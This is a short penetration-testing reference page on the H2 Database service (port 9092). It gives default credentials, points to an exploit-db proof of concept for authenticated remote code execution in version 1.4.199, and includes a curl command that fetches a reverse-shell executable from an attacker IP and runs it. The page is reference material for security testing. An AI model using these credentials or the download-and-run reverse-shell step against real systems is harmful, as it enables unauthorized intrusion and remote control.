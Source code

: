```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# 9092 - H2

[H2](https://www.h2database.com/html/main.html) is a lightweight, open-source RDBMS written in Java. It is often embedded into applications for testing or development due to its small footprint and ease of deployment, and it supports SQL as well as in-memory and file-based persistence modes. Port `9092` is the default TCP port used by H2 for client-server SQL connections and port `8082` is for its web console.

## Default Credentials

The default credentials might be `sa:<blank>` or `sa:sa`.

## Authenticated RCE

H2 Database version `1.4.199` is affected by a RCE vulnerability due to unsafe handling of Java Native Interface (JNI) calls ([PoC](https://www.exploit-db.com/exploits/49384)).&#x20;

```bash
$ searchsploit H2 Database 1.4.199
H2 Database 1.4.199 - JNI Code Executionn | java/local/49384.txt

# The backdash might need to be escaped when used in the above PoC
curl 192.168.45.241/revshell.exe -o c:\\windows\\temp\\revshell.exe
c:\\windows\\temp\\revshell.exe
```
